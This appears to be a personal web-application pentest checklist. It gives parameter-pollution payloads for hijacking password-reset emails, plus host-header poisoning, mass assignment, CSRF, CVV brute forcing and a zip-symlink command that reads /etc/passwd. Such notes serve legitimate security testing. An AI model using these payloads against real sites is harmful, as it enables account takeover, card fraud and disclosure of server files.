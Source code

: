 # app functionalities
- todo: https://n3t-hunt3r.gitbook.io/pentest-book/web-application-pentesting/

## password reset
### when requesting the URL
- add another email as second parameter
```
email=victim@email&email=attacker@email
email=victim@email%20email=attacker@email
email=victim@email|email=attacker@email
email=victim@mail%0a%0dcc:attacker@mail
email=victim@mail",email="attacker@mail
email[]=victim@mail&email[]=attacker@mail
```
- add another email as second parameter changing the content-type
```
{"email":["victim@mail","attacker@mail"]}
```

- Password reset poisoning
    - change `Host`
    - duplicate `Host`
    - add `X-Forwarded-Host`
### when reseting the password
- check if reset token is predictable
- mass assignment login/username/email/phone
- use token belonging to a user to reset others' passwords

## change password
- if change works without current password -> GET method, CSRF
- mass assignment login/username/email/phone, if user is changeable
    - brute force login
    - if change works without current password
        - account takeover


## register
- mass assignment admin
- try use IDs already registered

## edit user
- change email/phone/cpf to someone already registered

## cc
- check card owner
- brute cvv

## file upload
- zip symlink exploit
```bash
ln -s /etc/passwd link
zip --symlinks evil.zip link
```

